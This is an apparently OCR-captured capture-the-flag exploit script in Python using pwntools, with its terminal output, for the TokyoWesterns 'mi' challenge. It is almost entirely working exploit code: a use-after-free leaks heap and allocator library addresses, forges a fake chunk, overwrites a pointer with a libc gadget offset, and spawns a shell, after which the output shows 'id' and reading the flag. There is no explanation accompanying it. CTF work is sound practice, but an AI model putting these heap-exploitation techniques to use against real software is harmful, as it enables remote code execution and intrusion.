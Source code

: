 ```python

def read(idx):
    s.sendlineafter('>>', '3')
    s.sendlineafter('number\n', str(idx))

def free(idx):
    s.sendlineafter('>>', '4')
    s.sendlineafter('number\n', str(idx))

create(0, 0x500)
free(0)
create(1, 0x38)
create(2, 0x38)
free(2)
free(1)
read(1)
heap = u64(s.recv(6) + '\x00' * 2) - 0x16c0
s.info("heap @ " + hex(heap))

write(0, p64(heap + 0xc8).ljust(0x500, '\x00'))
create(1, 0x38)
create(1, 0x38)
write(1, '\x00' * 0x38)
create(3, 0x600)
write(1, 'A' * 0x38)
read(1)
s.recvuntil('A' * 0x38)
milibc = u64(s.recv(6) + '\x00' * 2) - 0x2233c0
libc = milibc + 0x22a000
s.info("milibc @ " + hex(milibc))
s.info("libc @ " + hex(libc))

fake_chunk_addr = heap + 0x10000
fake_chunk = p64(fake_chunk_addr + 8) + p64(milibc + 0x228970)
write(3, fake_chunk.ljust(0x600, '\x00'))

s.info("fake chunk  @ " + hex(fake_chunk_addr))
pay = p64(libc + 0x10a38c) + p64(0x1111111122222222) + p64(0x1)
pay += p64(0) + p64(0) + p64(fake_chunk_addr) + p64(0x600)
write(1, pay)

create(1, 0x600)
create(2, 0x600) # get shell
s.interactive()
# TWCTF{mi_miii_mee_mean_nomeaning}
```


```
Interrupt: Press ENTER or type command to continue
[+] Opening connection to mi.chal.ctf.westerns.tokyo on port 10001: Done
[*] heap @ 0x7fbbe5400000
[*] milibc @ 0x7fbbf549c000
[*] libc @ 0x7fbbf56c6000
[*] fake chunk  @ 0x7fbbe5410000
[*] Switching to interactive mode
$ id
uid=9400(mi) gid=40000(mi) groups=40000(mi)
$ cat /home/*/flag
TWCTF{mi_miii_mee_mean_nomeaning}
$
```
